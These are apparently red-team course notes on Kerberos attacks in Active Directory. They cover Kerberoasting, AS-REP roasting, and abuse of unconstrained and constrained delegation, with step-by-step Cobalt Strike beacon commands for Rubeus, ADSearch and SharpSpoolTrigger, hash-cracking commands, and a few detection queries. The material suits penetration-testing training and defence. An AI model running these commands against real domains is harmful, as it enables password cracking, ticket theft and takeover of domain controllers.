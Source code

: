 # Kerberos

When a user logs onto their workstation it sends an AS-REQ to the Key Distribution Center (KDC)/Domain Controller (DC), requesting a TGT using a secret key derived from the user's password. KDC verifies the secret key with the password it has stored in Active Directory for that user. If valid it returns the TGT. The TGT contains the user's identity and is encrypted with the KDC secret key (the krbtgt account). When the user attempts to access a resource using Kerberos (e.g. a file share), the client looks up the associated Service Principal Name (SPN), and requests a Ticket Granting Service Ticket (TGS) for that service from the KDC, and presents its TGT as a means of proving they're valid. The KDC returns a TGS for the service, which is then presented to the actual service. The service inspects the TGS and decides whether it should grant the user access.

| Client | | KDC | | Server |
|:--:|:--:|:--:|:--:|:--:|
| Request TGT (AS-REQ) | -> | • | | |
| • | <- | Return TGT (AS-REP) |  |  |
| Request TGS for service (TGS-REQ) | -> | • | | |
| • | <- | Return TGs (TGS-REP) |  |  |
| Present TGS to service | -> | -> | -> | • |
| • | <- | <- | <- | Grant access |

## Kerberoasting

Services run on a machine under the context of a user account; local (LocalSystem, LocalService, NetworkService) or domain accounts (e.g. DOMAIN\mssql). A Service Principal Name (SPN) is a unique identifier of a service instance. SPNs are used with Kerberos to associate a service instance with a logon account, and are configured on the User Object in AD (e.g. MSSQLSvc.sql-2.dev.corp.io:1433 in the service's properties).

Part of the TGS returned by the KDC is encrypted with a secret derived from the password of the user account running that service. Kerberoasting requests TGSs for services running under the context of domain accounts and cracks them offline to reveal their plaintext passwords. Rubeus Kerberoast can be used to perform the kerberoasting. Running it without further arguments will roast every account in the domain that has an SPN (excluding krbtgt). 

```beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe kerberoast /simple /nowrap``` returns long hashes which can be cracked offline to recover the plaintext passwords for the accounts. Use:

* ```john --format=krb5tgs --wordlist=wordlist hashes``` or
* ```hashcat -a 0 -m 13100 hashes wordlist```

...but some hash format incompatibility with john. Remove the SPN from: 

    $krb5tgs$23$*mssql_svc$dev.cyberbotic.io$MSSQLSvc...

to: 

    $krb5tgs$23$*mssql_svc$dev.cyberbotic.io...


But, honeypot accounts can be configured with a "fake" SPN, which will generate a 4769 event when roasted. Since these events will never be generated for this service, it provides a high-fidelity indication of this attack: ```event.code: 4769 and winlog.event_data.ServiceName: honey_svc```. Safer to enumerate candidate users first and roast them selectively. This LDAP query will find domain users who have an SPN set: 

    beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=user)(servicePrincipalName=*))" --attributes cn,servicePrincipalName,samAccountName

Then roast an individual account: ```execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe kerberoast /user:mssql_svc /nowrap```

## ASREP Roasting

If a user does not have Kerberos pre-authentication enabled, an AS-REP can be requested for that user, and part of the reply can be cracked offline for the plaintext password. This is enabled on the User Object, often seen on Linux accounts. 

Of course don't asreproast every account in the domain: 

    execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=user)(userAccountControl:1.2.840.113556.1.4.803:=4194304))" --attributes cn,distinguishedname,samaccountname
    execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asreproast /user:squid_svc /nowrap

Use:

* ```john --format=krb5asrep --wordlist=wordlist squid_svc``` or
* ```hashcat -a 0 -m 18200 squid_svc wordlist```

Catch: ASREPRoasting generates a 4768 event with RC4 encryption and a preauth type of 0:

    event.code: 4768 and winlog.event_data.PreAuthType: 0
    winlog.event_data.TicketEncryptionType: 0x17


## Unconstrained Delegation

Delegation allows a user or machine to act on behalf of another user to another service (e.g. user authenticates to a front-end web app that serves a back-end database -- the app authenticates to the DB using Kerberos as the authenticated user). When set up, unconstrained delegation makes KDC include the user's TGT inside the TGS. In this example, when the user accesses the Web Server, it caches the user's TGT. When the Web Server needs to access the DB Server on behalf of that user, it uses the TGT to request a TGS for the database service. It will cache the user’s TGT regardless of which service is being accessed by the user. So, if an admin accesses a file share or any other service on the machine that uses Kerberos, their TGT will be cached and can be extracted memory for nefarious use against other services in the domain.

To return all computers that are permitted for unconstrained delegation: ```execute-assembly ADSearch.exe --search "(&(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" --attributes samaccountname,dnshostname```

Domain Controllers are always permitted for unconstrained delegation.

If we compromise WEB$ and wait or socially engineer a privileged user to interact with it, we can steal their cached TGT.  Interaction can be via any Kerberos service, so something as simple as dir \\web\c$ is enough. Rubeus triage will show all the tickets that are currently cached. TGTs can be identified by the krbtgt service.

    beacon> getuid
    [*] You are NT AUTHORITY\SYSTEM (admin)
    beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe triage

Extract this TGT and leverage it via a new logon session:

    beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x14794e /nowrap
    beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIFwj[...]MuSU8=
    beacon> steal_token 1540
    beacon> ls \\dc-2.dev.cyberbotic.io\c$

For the lab: A task running on Workstation 1 as nlamb interacts with WEB$ every 5 minutes. If the ticket is not there, wait and try again.

Can also get a TGT for accounts by forcing them to authenticate remotely to the machine. (See the NTLM Relaying module in  Pivoting for tools for this.) This time, force the domain controller to authenticate to the web server to steal its TGT. Also use Rubeus' monitor command, which continuously monitors for and extract new TGTs as they get cached. It's a superior strategy when compared to running triage manually because there's little chance of us not seeing or missing a ticket.

    beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe monitor /interval:10 /nowrap

then run SharpSpoolTrigger:

    beacon> execute-assembly SharpSpoolTrigger.exe dc-2.dev.cyberbotic.io web.dev.cyberbotic.io

Where:

  * DC-2 is the target
  * WEB is the listener

Rubeus will then capture the ticket. To stop Rubeus, use the jobs and jobkill commands.

Machine TGTs are leveraged slightly differently -- see S4U2Self Abuse later.  

## Constrained Delegation

Constrained delegation is a safer means for services to perform Kerberos delegation. It aims to restrict the services to which the server can act on behalf of a user. The server cannot cache the TGTs of other users, but can request a TGS for another user with its own TGT. Search for both user accounts as well as computer accounts doing this.

For example: SQL-2 can act on behalf of any user to the cifs service on DC-2 (CIFS allows you to list file shares and transfer files). To find computers configured for constrained delegation, search for those whose  msds-allowedtodelegateto attribute is not empty: ```execute-assembly ADSearch.exe --search "(&(objectCategory=computer)(msds-allowedtodelegateto=*))" --attributes dnshostname,samaccountname,msds-allowedtodelegateto --json```

1: To perform the delegation, get the TGT of the trusted principal; extract it with Rubeus dump:

    beacon> run hostname
    beacon> getuid
    beacon> execute-assembly Rubeus.exe triage
    beacon> execute-assembly Rubeus.exe dump /luid:0x3e4 /service:krbtgt /nowrap

2: With the TGT, perform an S4U request to obtain a usable TGS for CIFS on DC-2. Want someone who is local admin on the target or a domain admin. This will perform an S4U2Self first and then an S4U2Proxy:

    beacon> execute-assembly Rubeus.exe s4u /impersonateuser:<user> /msdsspn:<service> user:<delegation> ticket:<user ticket> /nowrap

e.g.:

    beacon> execute-assembly Rubeus.exe s4u /impersonateuser:nlamb /msdsspn:cifs/dc-2.dev.cyberbotic.io user:sql-2$ /ticket:doIFLD... /nowrap

3: Use the final S4U2Proxy ticket for a new logon session, e.g.:

    beacon> execute-assembly Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIGa...
    beacon> steal_token 5540
    beacon> ls \\dc-2.dev.cyberbotic.io\c$

Rubeus asktgt also works if have NTLM or AES hashes.

Always use the FQDN. Otherwise, there will be 1326 errors:

    beacon> ls \\dc-2\c$
    [-] could not open \\dc-2\c$\*: 1326 - ERROR_LOGON_FAILURE

